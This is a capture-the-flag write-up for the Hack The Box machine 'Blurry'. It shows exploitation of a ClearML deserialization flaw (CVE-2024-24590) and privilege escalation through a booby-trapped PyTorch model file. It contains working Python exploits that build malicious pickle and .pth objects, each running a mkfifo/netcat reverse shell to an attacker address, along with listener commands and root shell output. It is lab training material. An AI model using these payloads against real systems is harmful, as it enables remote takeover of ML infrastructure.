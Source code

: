 # Blurry-writeup-HTB

# Exploration

Let's perform an nmap scan

```bash
nmap -sCV -A 10.10.11.19
```

![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/ab3c53170f9d0aa3bac1610e503b2a95f3f6a0bd/Screenshot_2024-06-08_15_45_41.jpg)

We must add the subdomains:

```bash
sudo nano /etc/hosts 
```

![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/ab3c53170f9d0aa3bac1610e503b2a95f3f6a0bd/Screenshot_2024-06-10_18_45_06_1.png)


Let's visit the web port app.blurry.htb that we discovered with the nmap scan


![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/52f9e337e18d4ba5b6940ca24728b4df07d5d6a1/Screenshot_2024-06-08_15_46_05.png)

Just by entering a username we can enter.

![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/52f9e337e18d4ba5b6940ca24728b4df07d5d6a1/Screenshot_2024-06-08_16_28_06.png)


Investigate what CLEARML is, what it is for, how it works. 
I found a website that details the vulnerabilities.

[CVE-2024-24590](https://hiddenlayer.com/research/not-so-clear-how-mlops-solutions-can-muddy-the-waters-of-your-supply-chain/?source=post_page-----203ea31df0e3--------------------------------) 


# Exploitation configuration:


According to what they explain, an attacker could create a pickle file containing arbitrary code and upload it as an artifact to a project via the API. When a user calls the get method within the Artifact class to download and load a file into memory, the pickle file is deserialized to their system and executes any arbitrary code it contains.

We need to configure it on our machine
![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/db27863226c011535eb8e2eaaedb9a0add34e0bf/Screenshot_2024-06-10_18_45_06.png)

```bash
pip install clearml
clearml-init
```
# Exploitation

We need a Python script that creates and uploads a malicious pickle file. 
When the file is executed, it will establish a reverse shell connection to our machine.

```bash
import pickle
import os
from clearml import Task, Logger


task = Task.init(project_name='Black Swan', task_name='REV shell', tags=["review"])



class MaliciousCode:
    def __reduce__(self):

        cmd = (
            "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc "ip port" > /tmp/f"
        )
        return (os.system, (cmd,))


malicious_object = MaliciousCode()
pickle_filename = 'malicious_pickle.pkl'
with open(pickle_filename, 'wb') as f:
    pickle.dump(malicious_object, f)

print("Malicious pickle file with reverse shell created.")


task.upload_artifact(name='malicious_pickle', artifact_object=malicious_object, retries=2, wait_on_upload=True, extension_name=".pkl")

print("Malicious pickle file uploaded as artifact.")
```
With the execution of the exploit, the artifact is loaded.
Then when the administrator checks it, you will get a shell on the listening port.

Listen on netcat
```bash
nc -lvnp <port>
```

![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/db27863226c011535eb8e2eaaedb9a0add34e0bf/Screenshot_2024-06-14_04_16_58.png)

Run the exploit

```bash
python exploit.py
```
![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/db27863226c011535eb8e2eaaedb9a0add34e0bf/Screenshot_2024-06-14_04_19_25.png)

The exploit is uploaded to the web, runs and completes. after two minutes you get reverse shell in your terminal.
You may need to run the exploit several times to obtain the shell.

# The user flag
![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/bec0d75683caded38a44eff5b2828f5188aa9013/Screenshot_2024-06-13_17_54_22.png)

# Privilege escalation

Let's stabilize our shell.

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")’    

export TERM=xterm 

stty raw -echo
```

![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/bec0d75683caded38a44eff5b2828f5188aa9013/Screenshot_2024-06-14_04_23_09.png)

Let's check the ones we can run as root.
![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/db27863226c011535eb8e2eaaedb9a0add34e0bf/Screenshot_2024-06-14_04_23_38.png)

The jippity user can run the evaluate_model command with any file that has a .pth extension. Let's navigate to the /models/ directory to investigate further.

Installing the torch from pip will allow us to create a model.

The script I will use to create our malicious model:

```bash
import torch
import torch.nn as nn
import os

class MaliciousModel(nn.Module):
    # PyTorch's base class for all neural network modules
    def __init__(self):
        super(MaliciousModel, self).__init__()
        self.dense = nn.Linear(10, 1)
    
    # Define how the data flows through the model
    def forward(self, demo): # Passes input through the linear layer.
        return self.dense(demo)
   
    # Overridden __reduce__ Method
    def __reduce__(self):
        cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.x.x 6060 >/tmp/f"
        return os.system, (cmd,)

# Create an instance of the model
malicious_model = MaliciousModel()

# Save the model using torch.save
torch.save(malicious_model, 'demo.pth')
```

![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/bec0d75683caded38a44eff5b2828f5188aa9013/Screenshot_2024-06-14_06_33_39.png)

```bash
jippity@blurry:~$ wget http://10.10.x.x/demo.pth
--2024-06-13 15:06:49--  http://10.10.x.x/demo.pth
```
# Root flag

![alt text](https://github.com/Milamagof/Blurry-writeup-HTB/blob/bec0d75683caded38a44eff5b2828f5188aa9013/Screenshot_2024-06-14_06_34_06.png)


```bash
nc -lvnp 6060
listening on [any] 6060 ...
connect to [10.10.x.x] from (UNKNOWN) [10.10.11.19] 57082
# whoami
root
# cat /root/root.txt
```
